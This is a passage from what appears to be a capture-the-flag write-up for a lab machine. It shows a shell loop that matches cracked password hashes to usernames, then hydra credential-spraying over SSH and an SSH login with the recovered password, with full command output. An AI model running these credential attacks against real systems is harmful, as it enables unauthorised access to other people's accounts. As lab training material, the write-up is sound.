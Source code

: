 I’ll break that loop down:
1. `cat cracked | while read c; do` - Start a loop over each line in my cracked output. An example line looks like `254e5f2c3beb1a3d03f17253c15c07f3:hacktheplanet`.
2. `hash=$(echo ${c} | cut -d: -f1);` - Use `cut` to get just the hash part of the line, and save it as `hash.`
3. `pass=$(echo $c | cut -d: -f2);` - Do the same to save the password as `pass`.
4. `username=$(grep ${hash} users.json | cut -d'"' -f2);` - `grep` to find the line with the corresponding hash in the users.json file. The line will look like `"colleen": "d3792794c3143f7e04fd57dc8b085cd4",`. Then cut based on `"` and get the 2nd field, which is the username. Save that as `username`.
5. `echo "${username}:${pass}";` - Echo the username and password in the desired format.

### Hydra

Now I can use `hydra` to see if any of the 12 work as an SSH login, using the `-C` flag, which takes a colon separated “login:pass” format, rather than the `-L` and `-P` options. It finds I can successfully ssh as genevieve:

```

root@kali# hydra -C user_pass ssh://10.10.10.86
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.                                                                                

Hydra (http://www.thc.org/thc-hydra) starting at 2018-10-29 11:58:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4                                                                                          
[DATA] max 12 tasks per 1 server, overall 12 tasks, 12 login tries, ~1 try per task
[DATA] attacking ssh://10.10.10.86:22/
[22][ssh] host: 10.10.10.86   login: genevieve   password: Princess1
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-10-29 11:58:17

```

### ssh Shell

I am now able to ssh in as genevieve:

```

root@kali# ssh genevieve@10.10.10.86
The authenticity of host '10.10.10.86 (10.10.10.86)' can't be established.
ECDSA key fingerprint is SHA256:3gHAJvc1zomI4M6+oCp/3xrMyS6DMPbMFEGDbBO2Qso.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.86' (ECDSA) to the list of known hosts.
genevieve@10.10.10.86's password: 
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.4.0-133-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Mar 26 23:42:41 2018 from 172.23.10.99

genevieve@dab:~$ pwd
/home/genevieve

```
